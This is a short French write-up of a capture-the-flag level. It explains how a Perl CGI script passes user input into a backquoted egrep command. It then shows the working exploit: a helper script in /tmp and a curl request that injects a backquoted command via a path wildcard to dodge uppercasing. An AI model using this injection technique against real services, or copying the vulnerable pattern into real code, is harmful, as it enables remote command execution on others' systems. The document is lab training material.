

# Level12:

**Le fichier perl fourni ressemble a ca:**
```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1]; // Argument 1
  $xx = $_[0]; // Argument 0
  $xx =~ tr/a-z/A-Z/; // Convert lowercase into uppercase
  $xx =~ s/\s.*//; // Clear all spaces
  @output = `egrep "^$xx" /tmp/xd 2>&1`; // Exploit here
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```
**L'exploit present nous permet de modifier la commande du script en placant avant et apres nos instructions des backquotes**
**Commencons donc par creer un exploit a l'adresse /tmp/SCRIPT**
```bash
#!/bin/sh

getflag > /tmp/flag
```

**On le passe a l'url via le parametre x en n'oubliant pas les backquotes**
``curl '127.0.0.1:4646?x=`/*/SCRIPT`'``

**On accede donc maintenant au flag a l'adresse /tmp/flag**

